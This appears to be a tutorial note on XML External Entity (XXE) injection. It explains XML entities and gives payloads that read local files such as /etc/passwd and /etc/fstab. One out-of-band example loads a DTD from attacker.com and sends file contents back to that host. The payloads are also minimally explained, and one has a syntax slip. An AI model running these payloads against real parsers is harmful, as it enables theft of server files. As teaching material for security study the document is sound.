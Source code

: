 # XML External Entities

XML is about data transportation and sometimes storage

Use in API, UIs, config files and RSS feeds.

``` xml
<?xml version="1.0"?> <!-- xml metadata-->
<Person>
<Name>John</Name>
<Age>20</Age>
</Person>
```

Tag names are case sensitive
`<>"'` are not allowed in the document directly because XML parsers will have trouble interpreting it correctly

## Entities

**Entities** are like variables for XML. You can assign a value to it an use it multiple times in the document. They are are declared in **Document Type Defintion (DTD)**

``` xml
<!DOCTYPE Person [
    <!ENTITY name "John">
]>
<Person>
    <Name>&name;</Name>
    <Age>20</Age>
</Person>
```

There are many types of entities

* internal - defined within local DTD.

    ``` dtd
    <!DOCTYPE doc [
        <!ENTITY foo "bar">
    ]>
    ```

    Can be referred to within the XML as `&foo;` and will be replaced with the term "bar"
* external - defined outside of local DTD

    ``` dtd
    <!ENTITY foo SYSTEM "file:///external.dtd">
    ```

* parameter - only allowed inside DTD. Is used with the `%` symbol  
E.g. creating an entity whose value is another entity

    ``` xml
    <!DOCTYPE Person [
        <!ENTITY % outer "<!ENTITY inner 'John'>">
    ]>
    ```

* predefined - a set of predefined values of special characters

    ``` xml
    <hello>&#x3C;</hello>
    ```

Entities can

* store values we specify
* pull values from a local files
* fetch remote data over the network and store them as entities

``` xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
    <!ENTITY subscribe SYSTEM "secret.txt">
    <!-- SYSTEM lets the entity know the XML parser know that the entity is external -->
    <!-- It stores the contents of "secret.txt" into subscribe -->
]>
<pwn>&subscribe;</pwn>
```

There are different types of XXE's; inband, error, out-of-band (OOB)

* inband - the XML will be parsed and the output will be shown on the screen
* error - a blink XXE, where you basically see a bunch of errors
* OOB - xml is parsed, but you can't see the output

## External Document Type Definitions

``` xml
<!-- main.xml -->
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

``` xml
<!-- evil.dtd -->
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
%wrapper;

<!-- This is interpreted as
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY %wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
<!ENTITY send SYSTEM 'http://attacker.com/?CONTENTS_OF_PASSWD>
-->
```

If a file contains non "well-formed" tags, e.g. `<p></p>`, they need to be enclosed with CDATA. Whatever is in between the opening and closing CDATA is will not be parsed as markup by the XML parser. e.g `<text>` is ignored in `<![CDATA[ <text> ]]>`.

The value of a CDATA entity has to be well-formed so we cannot do the following

``` xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY start "<![CDATA[">
<!ENTITY file SYSTEM "file:///etc/fstab">
<!ENTITY end "]]">
]>
<data>&start;&file;&end;</data>
```

The solution to this is using parameter entities and external DTDs

``` xml
<!-- external.dtd -->
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % end "]]">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>"
%wrapper;
```

For more possible XXE payloads see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
